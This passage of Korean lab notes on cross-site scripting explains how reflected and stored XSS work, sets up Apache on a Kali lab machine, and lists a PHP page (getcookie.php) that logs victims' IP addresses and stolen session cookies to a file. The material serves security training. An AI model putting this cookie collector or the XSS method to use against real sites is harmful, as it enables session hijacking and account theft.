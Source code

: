     ![화면 캡처 2022-10-27 192923](../../assets/img/화면 캡처 2022-10-27 192923.png)

    ```
    공격자는 해당링크를 게시판/이메일/메신저 ... 으로 전달하여 상대가 클릭하도록 유도 
    사회공학(SPAM mail/쪽지 등) 공격을 등으로 사용자가 선택하기를 유도 함
    사용자가 악성 스크립트가 포함된 URL을 클릭하면 서버에 요청이 전달 됨
    서버의 취약한 페이지(클라이언트의 입력 값을 응답으로 출력 함)에서 악성 스크립트를 포함한 응답을 클라이언트에 전송 함
    클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함
    ```

#### stored XSS

- 공격 원리
  - Injection Vector에 공격 스크립트를 저장 함 → 게시물 등

    > 클라이언트의 선택을 유도할 수 있는 내용으로 작성 함

  - 클라이언트가 해당 게시물을 선택하면 서버가 악성 스크립트를 포함한 응답을 전송 함

  - 클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함

#### XSS 실제 적용

- 구성도

- 실습 환경 구성

  ```
  ┌──(root㉿kali)-[~]
  └─# systemctl restart apache2 
  ──(root㉿kali)-[~]
  └─# systemctl status apache2 
  ● apache2.service - The Apache HTTP Server
       Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
       Active: active (running) since Thu 2022-10-27 06:33:59 EDT; 1min 27s ago
  ──(root㉿kali)-[~]
  └─# netstat -antup | grep apache2 
  tcp6       0      0 :::80                 :::*                    LISTEN      1277/apache2      
  ```

  - xp -> kail 웹사이트 접속

    ![화면 캡처 2022-10-27 203208](../../assets/img/화면 캡처 2022-10-27 203208.png)

- 공격대상의 정보가 기록되도록 구성 (kail)

  - 공격대상이 자신의 PHP 세션정보를 기록할 페이지를 작성

    ```
    # vim /var/www/html/getcookie.php
    
    <?php
     $fd=fopen("/tmp/cookie.dat","a+");
     while(list($key,$val)=each($_GET))
     {
       fputs($fd,$_SERVER['REMOTE_ADDR']."");
       fputs($fd,$key);
       fputs($fd,"=");
       fputs($fd,$val);
       fputs($fd,"\n"); 
     }
     fclose($fd);
    ?>
    ```
